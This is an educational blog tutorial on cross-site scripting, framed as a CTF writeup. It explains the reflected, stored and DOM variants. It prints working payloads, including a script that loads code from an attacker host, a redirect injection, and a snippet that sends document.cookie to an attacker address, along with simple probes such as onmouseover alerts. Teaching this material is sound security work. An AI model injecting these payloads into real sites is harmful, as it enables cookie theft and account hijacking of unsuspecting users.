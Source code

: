 ```yaml
---
title: Cross Site Scripting (XSS)
date: 2022-05-18 12:00:00 -0400
image: 
 src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf0.jpg
 height: 3000
 width: 450
categories: [HTB Writeups, Cyber Apocalypse CTF]
tags: [web security, ctf, owasp]
---
```


Cross-site scripting known as XSS is a web vulnerability in which malicious scripts are injected int benign and trusted websites. XSS occur when an attacker send malicious code in any user input fields in a browser to a different end-user.

## Mechanisms

In an XSS attack the attacker inject script in HTML code so you'll have to know javascript and HTML syntax, wbe uses scripts to control client-side application logic and make the website interactive, for example this script generates _Hello!_ pop-up on the web page:

```
<html>
    <script>alert("Hello!");</script>
    <h1>Welcome to my page</h1>
<html>

```

Script like this that are embedded in HTML file instead of loaded from are separated file are called _inline scripts_. These script causes XSS vulnerabilities, scripts can also be loaded from an external file like this: `<script src="URL_OF_EXTERNAL_FILE"></script>`

If the website doesn't validate the input before render the message, it will cause XSS, _validating_ user input means that the application checks that the user input meets a certain standard, _sanitizing_ in the other hand means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing.

As a result the inline script will cause a redirection to an another url. The src attribute of HTML script tag allwo to load javascript form external source, this code will execute the content of *[](https://attacker.om/xss.js/*)[https://attacker.om/xss.js/*](https://attacker.om/xss.js/*) on the victim browser:

```
<script src=http://attacker.com/xss.js></script>

```

This example is not exploitable because there is no way of inject this in other users pages, but let´s say the site allow users to subscribe to a newsletter with the URL `https://subscribe.com?email?=USER_EMAIL` after the user visit this page, they are automatically subscribed, and the confirmation message will appear on the web, so we can inject xss payload for users who visit this URL `https://subscribe,com?email=<script>location="<http://attacker.com>";</script>` since the malicious script is incorporated in the page, the user will think its safe, so we can access any resources that the browser stores for that site, for example this code will steal user cookies by sending a request to the attacker IP.

```
<script>image=new Image();
image.src='http://atttacker_site_ip/?c='+document.cookie;</script>

```

## Reflected XSS

Input from a user is directly returned to the browser, permitting injection of arbitrary content A classic example would be a URL, which contain a parameter that can be altered by a user, where the input is mirrored and made visible. Example URL: '[](https://example.com/?user=jesus)[https://example.com/?user=jesus](https://example.com/?user=jesus)' Example Output:

```
<span id='user'>
	<b> Hi jesus</b>
</span>

```

## Stored XSS

Input from a user is stored on the server (database) and returned later without proper escaping and sanitization to the user

## DOM XSS

Input from a user is inserted into the page's DOM without proper handling, enabling insertion of arbitrary nodes

![https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg)

Recognition for XSS

-   Figure out where it goes, embedded in a tag attr or embedded in a script?
-   Figure out how special characters are handled: A good way is to input something like `< > ' " { } ; :`
-   `"><h1>test</h1>`
-   `'+alert(1)+'`
-   `"onmouseover="alert(1)`
-   `http://onmouseover="alert(1)`